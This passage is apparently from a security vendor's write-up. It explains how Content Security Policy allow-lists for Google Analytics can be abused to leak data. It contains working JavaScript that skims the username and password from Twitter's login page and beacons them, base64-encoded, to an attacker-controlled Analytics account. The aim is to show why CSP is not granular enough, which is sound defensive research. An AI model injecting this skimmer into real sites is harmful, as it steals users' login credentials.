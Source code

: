 In our demonstration, using a simple mechanism, we can leak data over commonly allowed third-party domains. We took google-analytics as an example, but other services can also be used.

As an example, we took the twitter login page, which implemented the following CSP rule (which contains https://www.google-analytics.com):

Image 16

The following short JS code inserted into the site will send the credentials to google-analytics console controlled by us:

username = document.getElementsByName("session[username_or_email]");
password = document.getElementsByName('session[password]');
window.addEventListener("unload", function logData() {
       navigator.sendBeacon("https://www.google-analytics.com/collect",
       'v=1&t=pageview&tid=UA-#######-#&cid=555&dh=perimeterx.com&dp=%2F'+
       btoa(username.item(0).value +':'+ password.item(0).value) +'&dt=homepage');
});

The UA-#######-# parameter is the tag ID owner that Google Analytics uses to connect the data to a specific account. Instead of using twitter’s google-analytic account, we used an account we control. Unfortunately, the CSP policy can’t discriminate based on the Tag ID. This will allow the dp parameter to be sent to our account. Though Google meant to have this parameter be used to mention the page the user visited, we used it to exfiltrate the user name and password data encoded in base64.

In our Google Analytics platform, we will see the data as:

Image 17

In our demo the DP will result in page view of bmV3ZW1haWxAcGVyaW1ldGVyeC5jb206bmV3cGFzcw== Which will be decoded from base64 as: "newemail@perimeterx.com:newpass"

The source of the problem is that the CSP rule system isn’t granular enough. Recognizing and stopping the above malicious JavaScript request requires advanced visibility solutions that can detect the access and exfiltration of sensitive user data (in this case the user’s email address and password).

One might think we could have updated the CSP to only allow specific TIDs: 'connect-src https://www.google-analytics.com/r/collect?*tid=[SPECIFIC_ACCOUNT]'.

The problem is that CSP doesn't support query strings (See Spec):

    Note: Query strings have no impact on matching: the source expression example.com/file matches all of https://example.com/file, https://example.com/file?key=value, https://example.com/file?key=notvalue, and https://example.com/file?notkey=notvalue.
